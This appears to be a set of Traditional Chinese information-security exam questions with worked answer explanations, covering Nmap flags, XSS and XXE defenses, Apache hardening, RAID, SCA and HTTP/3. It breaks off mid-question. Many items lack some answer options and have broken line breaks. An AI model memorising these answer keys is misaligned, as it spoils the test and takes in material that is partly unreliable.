






關於 Nmap 工具之指令操作, 下列敘述何者正確?
B
Nmap 使用 -T1 參數較 -T4 參數的掃描速度快
C
Nmap 使用 -sO 參數可檢測標的主機的作業系統版本
D
Nmap 使用 -D 參數為誘騙掃描 (decoy scan)
分析 Nmap 指令參數：
(A) SYN 掃描 (-sS) 是利用 TCP 協議的 SYN 封包進行掃描，無法直接用於掃描 UDP 埠。UDP 掃描需要使用 -sU 參數。
(B) Nmap 的 -T 參數用於設定時序模板 (Timing Template)，數字越小越慢（但也越隱蔽），數字越大越快（但也越容易被偵測）。-T1 (paranoid) 是最慢的，-T4 (aggressive) 或 -T5 (insane) 比較快。
(C) 檢測作業系統版本的參數是 -O (大寫O)，不是 -sO (小寫o)。-sO 是進行 IP Protocol Scan。
(D) -D 參數用於誘騙掃描 (Decoy Scan)，它會在掃描封包中混入一些偽造的來源 IP 地址 (decoys)，使得目標難以判斷哪個才是真正的掃描來源。
因此，正確的敘述是 (D)。
關於跨網站指令碼 (Cross-Site Scripting, XSS) 的防禦方式, 下列何者「不」正確?
B
編碼 (encoding) 後再輸出 (output)
C
防火牆在超文本傳輸協定 (http) 過濾相關 XSS 攻擊
防禦 XSS 攻擊的主要方式是處理使用者輸入和輸出：
(A) 輸入驗證：對使用者輸入的內容進行檢查，例如限制長度、字元類型、格式等，拒絕明顯惡意的輸入。雖然不能完全防止 XSS，但有一定效果。
(B) 輸出編碼：這是最重要的防禦手段。在將使用者提供的內容輸出到 HTML 頁面時，對具有特殊意義的字元（如 `<`, `>`, `"`, `'`）進行適當的編碼（如 HTML Entity Encoding），使其失去作為程式碼執行的能力，僅作為普通文本顯示。
(C) 網頁應用程式防火牆 (WAF) 可以識別和過濾一些已知的 XSS 攻擊特徵碼，提供一層額外的防護。
(D) 圖型驗證碼 (CAPTCHA) 主要用於區分人類和機器人，防止自動化程式濫用服務（如大量註冊、灌水），與防禦 XSS 攻擊無直接關係。
因此，「不」正確的防禦方式是 (D)。
下列何種密碼學演算法, 對於不同大小的資料, 運算後產生的資料長度都一樣?
B
RSA (Rivest, Shamir, Adleman)
C
ECC (Elliptic Curve Cryptography)
D
MD5 (Message Digest Algorithm 5)
分析各演算法的輸出特性：
(A) RC5 是一種對稱分組加密演算法。加密後的資料長度通常會是分組大小的整數倍，與原始資料大小相關（需要填充）。
(B) RSA 是一種非對稱加密演算法。加密後的資料長度取決於其金鑰長度，但通常會對原始資料進行分組加密，總長度也與原始資料大小相關。
(C) ECC 是一種基於橢圓曲線的非對稱加密技術。加密輸出長度同樣與金鑰和分組方式有關。
(D) MD5 是一種密碼雜湊函數 (Cryptographic Hash Function)。雜湊函數的特性就是將任意長度的輸入數據，經過運算後，產生一個固定長度的輸出值（雜湊值或摘要）。MD5 產生的雜湊值固定為 128 位元 (16 字節)。
因此，能對不同大小資料產生固定長度輸出的演算法是 (D) MD5（以及其他雜湊函數如 SHA-1, SHA-256 等）。
一位資安專家正在對某公司網站進行滲透測試, 在測試期間發現了一個跨網站指令碼 (Cross-Site Scripting, XSS) 的網站安全漏洞, 若要針對此弱點進行有效攻擊, 需同時符合下列何項條件?
A
網站的安全旗標 (secure flag) 未設定
B
連線期間快取 (session cookie) 的 HttpOnly 旗標未設定
分析 XSS 攻擊的條件與相關防護標記：
(A) Secure 旗標指示瀏覽器僅能透過 HTTPS 連線傳送 Cookie，主要防止 Cookie 在不安全的 HTTP 連線中被竊聽，與 XSS 漏洞本身能否被利用關係不大。
(B) HttpOnly 旗標指示瀏覽器禁止通過客戶端腳本（如 JavaScript）存取帶有此標記的 Cookie。如果未設定 HttpOnly，攻擊者可以利用 XSS 漏洞執行 JavaScript 來讀取並竊取使用者的 session cookie，進而劫持會話。因此，未設定 HttpOnly 是讓 XSS 攻擊能成功竊取 session cookie 的關鍵條件。
(C) 端點防護軟體主要偵測惡意程式或主機層級的威脅，對於瀏覽器執行惡意腳本的 XSS 攻擊防護能力有限。
(D) Active D 應該是指 ActiveX，是舊的 IE 技術，現代瀏覽器已不支援，與通用 XSS 無關。
因此，要讓 XSS 攻擊（特別是旨在竊取 cookie 的類型）有效，HttpOnly 旗標未設定是一個重要的條件。
請問下列何項惡意程式具有 SSH (Secure Shell) 截持的能力?
分析各惡意程式的特性：
(A) Ebury：是一種針對 Linux 伺服器的後門和憑證竊取惡意軟體，特別以攔截 SSH 登入憑證（使用者名稱、密碼、私鑰密碼）而聞名。它透過修改 SSH 相關函式庫來實現截持。
(B) Azorult：是一種主要針對 Windows 的資訊竊取惡意軟體，能竊取瀏覽器儲存的密碼、Cookie、加密貨幣錢包等，但不以 SSH 截持為主要特徵。
(C) MacSpy：是一種針對 macOS 的間諜軟體，具有鍵盤記錄、螢幕截圖、檔案竊取等功能，但不專門針對 SSH 截持。
(D) Xtunnel：可能指某些隧道工具或特定惡意軟體，但並非廣泛知名的具有 SSH 截持能力的惡意程式家族。
因此，具有 SSH 截持能力的著名惡意程式是 (A) Ebury。
在 Linux 系統環境下, 關於 Apache 安全防護設定, 下列敘述何者「不」正確?
A
檢查是否有非權限用戶對 Apache 設定檔擁有存取權限, 建議設定成: chmod 644 /usr/local/apache/conf/httpd.conf
B
檢查是否禁止使用 PUT、DELETE 等危險的 HTTP 模式, 所以在 httpd.conf 中, 增加: <LimitExcept GET POST>Allow from all</LimitExcept>
C
檢查是否禁用 CGI, 在 httpd.conf 中, 刪去有與 cgi 相關的 LoadModule 語句
D
禁止非超級使用者修改 Apache 伺服器根目錄, 執行以下命令變更許可權: chmod -R a-w /usr/local/apache
評估 Apache 安全設定建議：
(A) Apache 的主設定檔 (`httpd.conf`) 應僅允許 root 或 Apache 運行使用者可讀，且僅 root 可寫。chmod 644 (owner=rw-, group=r--, other=r--) 可能允許非預期使用者讀取，更安全的設定可能是 chmod 600 或 640 並設定正確的擁有者和群組。但至少，確保非權限用戶不能寫入是必要的。
(B) <LimitExcept GET POST> 指令用於限制除了 GET 和 POST 以外的其他 HTTP 方法。Allow from all 是舊版 Apache (2.2) 的語法，表示允許所有來源訪問。在新版 Apache (2.4) 中應使用 Require all granted。更重要的是，在這個區塊內使用 Allow from all 或 Require all granted 意味著允許所有人使用除了 GET/POST 以外的方法（如 PUT, DELETE），這正好與「禁止使用危險模式」的目的相反。應該在此區塊內使用 Deny from all 或 Require all denied 才對。因此，這個設定是錯誤且危險的。
(C) 如果不需要執行 CGI 腳本，禁用相關模組（如 `mod_cgi`, `mod_cgid`）可以減少攻擊面。
(D) 禁止非 root 使用者修改 Apache 的安裝目錄（包括設定檔、程式檔、日誌檔等）是基本的安全要求。chmod -R a-w (移除所有使用者對目錄及其內容的寫入權限) 是達成此目的的一種方法（雖然可能過於嚴格，影響正常運行，更精確的權限設定更佳，但概念上是禁止非授權修改）。
因此，「不」正確的敘述是 (B)。
「許多惡意程式會透過郵件附件方式進行入侵破壞與竊取, 造成企業重大損失, 而資安工程師會透過 Windows 群組原則物件 (Group Policy Object, GPO) 進行必要管控。」關於附圖登錄檔 (Registry) 範例內容 (HKEY_CURRENT_USER\Software\Policies\Microsoft\office\16.0\word\security, DWORD: blockcontentexecutionfrominternet, Value: 1), 下列敘述何者正確?
C
對 Office 2016 MS-Word 禁用巨集 (Macro)
D
對 Office 2016 MS-Excel 禁用巨集 (Macro)
分析登錄檔路徑和鍵值：
- 路徑包含 `\Software\Policies\Microsoft\office\16.0\word\security`：
- `Policies` 表示這是透過群組原則設定的。
- `office\16.0` 通常對應到 Office 2016 版本。
- `word` 明確指出這是針對 Microsoft Word 的設定。
- `security` 表示與安全性相關。
- 鍵值 `DWORD: blockcontentexecutionfrominternet, Value: 1`：
- `blockcontentexecutionfrominternet` 這個名稱暗示著「封鎖來自網際網路內容的執行」。在 Office 安全設定中，這通常指的就是封鎖來自網路（如下載的檔案、郵件附件）的文件中包含的宏（巨集）或其他動態內容的執行。
- `Value: 1` 通常表示啟用該封鎖設定。
綜合來看，這個登錄檔設定是透過
GPO 針對
Office 2016 版本的
Word，
啟用了
封鎖來自網際網路的內容執行（主要是
巨集）的功能。
因此，正確的敘述是 (C)。(A) 與 WordPad 無關。(B) 版本是 Office 2016 (16.0)，非 2003。(D) 設定是針對 Word，非 Excel。
「身為公司資安工程師, 當收到一項緊急資安情報, 指出某系統核心存在嚴重的漏洞, 但公司資訊資產清冊已久未更新。」下列何種做法較能即時找出組織內的所有會受到影響的伺服器?
B
對所有伺服器進行作業系統指紋掃描 (OS fingerprinting)
C
截取並分析所有經過網頁代理伺服器 (Web Proxy) 的封包
問題是要在資產清冊不準確的情況下，快速找出受特定系統核心漏洞影響的所有伺服器。
(A) 手動檢視每台伺服器的記錄非常耗時，效率低下，且不一定能從記錄中直接判斷是否存在該漏洞。
(B) 進行作業系統指紋掃描 (OS fingerprinting，例如使用 Nmap -O) 可以幫助識別網路中所有伺服器的作業系統類型和版本。如果該核心漏洞與特定作業系統或版本相關，這種掃描就能快速篩選出可能受影響的伺服器。這是相對快速且有效的方法。
(C) 分析 Web Proxy 流量主要了解網頁訪問行為，無法直接判斷伺服器是否存在特定核心漏洞。
(D) 掃描應用程式服務可以找出伺服器上運行的服務，但不一定能直接關聯到核心系統漏洞（除非漏洞正好在某個特定服務中）。OS 指紋掃描更直接。
因此，較能即時找出受影響伺服器的方法是 (B)。
縱深防禦 (Defense in Depth) 的主要目的是透過多層的網路安全防禦, 使駭客因為付出的成本與代價不符合效益, 因而放棄入侵, 下列何者「不」是縱深防禦的手段之一?
縱深防禦旨在建立多道防線，其目標可以概括為幾個 D：
- **Deter (嚇阻):** 透過明顯的防禦措施（如警告標語、強認證），讓攻擊者望而卻步。
- **Deny (拒絕):** 透過防火牆、存取控制等阻止未授權的訪問。
- **Detect (偵測):** 透過 IDS、SIEM、稽核日誌等及早發現入侵行為。
- **Delay (延遲):** 即使某層防線被突破，其他層也能拖慢攻擊者的進程，爭取偵測和回應的時間。
- **Respond (回應):** 偵測到攻擊後，採取行動進行遏制、根除和恢復。
分析選項：
(A) 延遲攻擊者是縱深防禦的目的之一。
(C) 嚇阻攻擊者也是目標之一。
(D) 偵測攻擊是多層防禦中的關鍵環節。
(B) 通報 (
Response) 通常指的是
事件回應階段的
通知動作。雖然
事件回應是整體安全策略的一部分，但「通報」本身
不是縱深防禦的
直接手段或
目標，而是
偵測到事件後的行動。
縱深防禦更側重於
預防、偵測和延遲攻擊。
因此，「不」是縱深防禦手段的是 (B)。
在網站平台開發時弱點管理的範疇中時常需要進行源碼檢測、弱點掃描、滲透測試; 源碼檢測目的是透過對原始碼的檢查, 挖掘已知或未知的網頁問題, 而進行弱點掃描的目的為何?
弱點掃描（通常指DAST或網路/系統層級掃描）的主要目的：
(A) 驗證弱點可行性（Exploitation）是滲透測試的核心工作，弱點掃描主要負責發現。
(B) 從駭客角度進行驗證是滲透測試的特點。
(C) 檢測商業邏輯問題通常需要人工分析（如滲透測試或代碼審查），自動化掃描工具難以發現。
(D) 弱點掃描擅長檢測運行環境（作業系統、伺服器軟體、網路服務）和系統配置上的已知漏洞或常見錯誤配置（如開放不必要的端口、使用預設密碼、缺少安全更新等）。
因此，進行弱點掃描的主要目的是 (D)。
磁碟陣列 (RAID - Redundant Array of Independent Disks) 是指使用多個磁碟進行資料複製的檔案系統, 它是一種即時備援與資料復原技術, 若以硬碟毀損方面進行評估, 下列何種規劃對於資料保存的安全性最低?
A
AD 主機採用 2 顆 SATA 硬碟規劃成 RAID1
B
網路儲存裝置 (NAS) 採用 8 顆 SATA 硬碟規劃成 RAID5
C
檔案伺服器採用 4 顆 SAS 硬碟規劃成 RAID0
D
儲存區域網路 (SAN) 採用 16 顆 SAS 硬碟規劃成 RAID6
不同 RAID 等級的容錯能力（對硬碟毀損的保護）：
- RAID 0 (等量 Striping): 將資料分散寫入多顆硬碟，提升讀寫效能，但沒有任何容錯能力。只要任何一顆硬碟損壞，所有資料都會遺失。安全性最低。
- RAID 1 (鏡像 Mirroring): 將資料完整複製到另一顆（或多顆）硬碟。允許至少一顆硬碟損壞而不遺失資料。
- RAID 5 (帶有分散式同位檢查的等量 Striping with Distributed Parity): 將資料和同位檢查資訊分散存儲在所有硬碟上。允許任何一顆硬碟損壞而不遺失資料。
- RAID 6 (帶有雙重分散式同位檢查的等量 Striping with Dual Distributed Parity): 類似 RAID 5 但使用兩組同位檢查資訊。允許任何兩顆硬碟同時損壞而不遺失資料。容錯能力更高。
(A)
RAID 1: 可容忍 1 顆硬碟損壞。
(B)
RAID 5: 可容忍 1 顆硬碟損壞。
(C)
RAID 0:
無法容忍任何硬碟損壞。
(D)
RAID 6: 可容忍 2 顆硬碟損壞。
因此，對於資料保存安全性最低（最不容忍硬碟毀損）的是 (C)
RAID 0。
下列何者對於 XML 外部實體注入攻擊 (XML External Entity Injection Attack, XXE) 的防護效果較佳?
B
禁止文件類型定義 (Document Type Define, DTD) 引用外部實體
C
使用合法憑證進行雙向 (伺服器端與使用者端) 之身分驗證
D
使用 SHA-3 第三代安全雜湊演算法 (Secure Hash Algorithm 3) 進行計算
XXE 攻擊發生在應用程式解析 XML 輸入時，若允許並處理了文件類型定義 (DTD) 中宣告的外部實體 (External Entity)，攻擊者可能藉此讀取伺服器本地檔案、觸發對內網的請求 (SSRF) 或進行阻斷服務攻擊。
(A) HTTPS 保護傳輸過程的機密性和完整性，無法阻止伺服器端解析惡意 XML 內容。
(B) 防護 XXE 的根本方法是配置 XML 解析器，使其不處理 DTD 或者禁止解析外部實體。這是最直接有效的防護措施。
(C) 身分驗證用於確認通訊方身份，無法防止已通過驗證的使用者提交惡意的 XML 輸入。
(D) SHA-3 是雜湊演算法，用於確保完整性，與解析 XML 外部實體無關。
因此，防護效果較佳的是 (B)。
某公司被主管機關要求須每年進行網路資安健檢, 下列何者較「不」符合主管機關之資安健檢要求?
資安健檢通常包含一系列的檢測和評估活動，目的是找出資安風險和弱點。
(A) 網頁應用程式弱點掃描（無論到場或遠端）是常見的健檢項目，用於發現 Web 應用的漏洞。
(C) 網路弱點掃描（通常指針對主機、作業系統、網路服務的掃描）也是標準的健檢項目。
(D) 滲透測試（模擬駭客攻擊）能更深入地評估實際風險，常被包含在較全面的健檢服務中。
(B) 網路安全備份服務是一種持續性的服務，目的是保護和恢復資料，不是一次性的「健檢」活動。健檢可能會評估備份策略是否完善，但提供備份服務本身不是健檢的項目。
因此，較不符合健檢要求的是 (B)。
某公司在網站弱點檢測報告中發現系統存在跨網站指令碼 (Cross-Site Scripting, XSS) 及開放式重定向 (Open Redirect) 問題, 下列何者方案可針對上述問題進行修補?
B
Open Redirect 可採用圖像式驗證根治
C
採用參數化查詢 (Prepared Statement) 可以解決 XSS
D
HTML.Encode 是可以解決 XSS 的一種方法
修補 XSS 和 Open Redirect：
(A) 僅過濾 `<` 字元不足以完全根治 XSS，攻擊者可能利用其他字元（如 `>`, `"`, `'`）或事件處理器等方式注入腳本。需要更完善的輸出編碼。
(B) Open Redirect 是指應用程式接受使用者提供的 URL 作為重定向目標，若未經驗證，攻擊者可誘騙使用者點擊連結跳轉到惡意網站。圖像式驗證 (CAPTCHA) 用於區分人機，與防止惡意重定向無關。應對重定向目標進行白名單驗證。
(C) 參數化查詢主要用於防止 SQL Injection，對防禦 XSS 無效。
(D) HTML.Encode（或其他上下文相關的輸出編碼函式）可以將 HTML 特殊字元轉換為其實體表示（如 `<` 轉為 `<`），使其在瀏覽器中僅作為文本顯示而不會被解析為標籤或腳本。這是防禦 XSS 的主要且有效的方法之一。
因此，可以解決 XSS 的方法是 (D)。(題目問修補"上述問題"，但選項主要針對 XSS)
關於軟體組成分析 (Software Composition Analysis), 下列敘述何者「不」正確?
A
可透過分析來識別所使用第三方/開源軟體, 其所存在的風險或威脅
B
「軟體組成分析」為源碼檢測其一類型, 主要分析軟體是否存在開發語法缺陷
C
所分析的風險因子包括, 如: 元件過期、已知弱點、程式庫信任、軟體授權等
D
「軟體透明度」能提升分析準確性, 可透過如 SBOM (Software Bill of Materials) 標準來發佈與交換資訊
軟體組成分析 (SCA) 是一種自動化工具或流程，用於識別應用程式中使用的開源或第三方元件，並檢測這些元件是否存在已知漏洞、授權合規性問題或其他風險。
(A) 描述了 SCA 的主要功能。正確。
(B) SCA 不是源碼檢測 (SAST) 的類型。SAST 分析的是自己開發的程式碼是否存在缺陷（如語法缺陷、邏輯漏洞）。SCA 關注的是所依賴的外部元件是否存在已知問題。兩者是互補的應用程式安全測試技術。錯誤。
(C) 描述了 SCA 分析的常見風險類型，包括元件版本過舊（可能含未修補漏洞）、存在已公開的 CVE 漏洞、授權是否符合使用場景等。正確。
(D) SBOM 提供了軟體組成的詳細清單（透明度），是進行 SCA 分析的重要輸入，有助於準確識別元件並進行風險評估。正確。
因此，「不」正確的敘述是 (B)。
開放式系統互聯模型 (Open System Interconnection Model, OSI) 中, 下列哪些「不」是在傳輸層 (Transport Layer) 的攻擊手法? (複選)
傳輸層 (Transport Layer, Layer 4) 主要負責
端對端的連線建立、資料傳輸控制、流量控制、錯誤控制等，主要協定是
TCP 和
UDP。
分析各攻擊手法所在的層級：
- (A) Smurf Attack：利用偽造來源 IP 的 ICMP Echo 請求發送到網路的廣播地址，導致大量主機回應給受害者，造成 DoS。主要利用 ICMP（網路層）和廣播機制（網路層/鏈路層）。**不在傳輸層**。
- (B) DNS Poisoning (DNS 快取污染)：攻擊者向 DNS 伺服器提供偽造的 DNS 回應，將域名指向錯誤的 IP 地址。主要涉及 DNS 協定（應用層）。**不在傳輸層**。
- (C) SYN Flood：攻擊者發送大量偽造的 TCP SYN 請求（TCP 三向交握的第一步），耗盡伺服器的半開連接資源，使其無法處理正常連線。這是典型的傳輸層 DoS 攻擊。
- (D) Ping of Death：發送一個格式錯誤或超大的 ICMP Echo 請求封包，導致目標系統崩潰（舊系統漏洞）。主要利用 ICMP（網路層）。**不在傳輸層**。
因此，「不」在傳輸層的攻擊手法是 (A)、(B)、(D)。
*註：本題PDF標示答案為A, B, D。*
HTTP/3 標準已經開始被國內外大型網站所建置使用, 而 HTTP/3 安全性更是高於 HTTP/1 與 HTTP/2, 關於 HTTP/3 的技術與特性, 下列敘述哪些正確? (複選)
A
HTTP/3 就是 HTTP over QUIC 方式來進行資料傳送與接收, 而 QUIC 是 Google 所提出的標準
B
QUIC 採用 UDP 通訊協定, 目前許多 Proxy 產品會採用強迫轉回到 TCP 方式進行過濾攔阻
C
在 HTTP/3 採取更嚴格安全檢核標準, 目前駭客所使用中間人攻擊 (Man-In-The-Middle attack, MITM) 之工具與技術很難加工處理
D
HTTP/3 仍使用 TCP 協定作為對話 (Session) 的傳輸層
關於 HTTP/3 和 QUIC：
(A) HTTP/3 的底層傳輸協議是 QUIC (Quick UDP Internet Connections)。QUIC 最初確實是由 Google 開發和提出的，後來被 IETF 標準化。正確。
